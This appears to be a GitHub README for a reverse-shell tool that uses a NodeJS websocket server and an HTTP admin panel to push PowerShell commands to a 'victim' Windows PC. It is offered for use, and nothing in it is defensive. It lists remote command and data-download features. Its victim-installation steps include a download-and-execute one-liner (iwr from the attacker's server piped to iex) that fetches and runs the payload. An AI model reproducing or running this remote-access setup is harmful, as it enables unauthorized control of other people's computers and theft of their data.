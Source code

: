 # About Reverse-Powershell-Websocket

This is a NodeJS server with the ability to pass through Powershell commands to a victim.

## Features
* NodeJS server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a NodeJS environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a NodeJS environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js" or "forever start index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Installation
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
#### 1
![settings]()
#### 2
![gateway]()
#### 3
![checkout]()
